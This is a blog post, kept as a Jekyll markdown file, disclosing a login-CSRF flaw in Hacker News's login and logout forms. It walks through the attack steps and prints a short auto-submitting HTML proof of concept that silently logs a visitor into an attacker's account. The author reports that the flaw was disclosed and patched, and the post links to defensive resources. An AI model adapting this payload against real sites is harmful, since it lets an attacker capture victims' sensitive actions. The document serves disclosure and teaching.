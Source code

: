 ```yaml
---
layout: post
title: "Hacker News CSRF Vulnerability"
description: "How I found a CSRF vulnerability in Hacker News"
category: articles
modified: 2016-02-24
---
```

  
On February 17th, I discovered a session riding vulnerability on the login and logout forms of Hacker News. The attack was a cross site request forgery (CSRF), triggered by clicking an article posted by the attacker.

When we think of malicious hackers, we often imagine them trying to log into accounts they don't own. But the reverse approach - forcing legitimate users to log into an *attacker*'s account without realizing it - can be just as harmful.

The attack worked like this:

1. Attacker submits a title like "CSRF And You (2008)" with a URL that points to the exploit code.
2. User clicks on interesting article.
3. User is logged out of account, silently logged into an attacker-controlled account, and sent to the comments section.
4. User reads comments section for interesting article.
5. User does other, more sensitive actions in the attacker-controlled account (apply for YC? change email? add credit card? make brilliant karma-rich submission?).

The exploit code looked like this:

    <body onload="document.getElementById('csrf_demo').submit()" style="display:none;">
      <img src="https://news.ycombinator.com/logout" />
      <form id="csrf_demo" action="https://news.ycombinator.com/login" method="post">
        <input name="goto" value="item?id=11122018">
        <input name="acct" value="csrf">
        <input name="pw" value="password">
      </form>
    </body>

I contacted Dan at Hacker News and the team immediately patched the vulnerabilities. This attack no longer works as described above.

To learn more about CSRF and how to protect your site against attacks like this one, read Jeff Atwood's excellent [CSRF and You (2008)](http://blog.codinghorror.com/cross-site-request-forgeries-and-you/) and review the [OWASP Wiki on CSRF](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)). 

[Disclosure](https://news.ycombinator.com/security.html)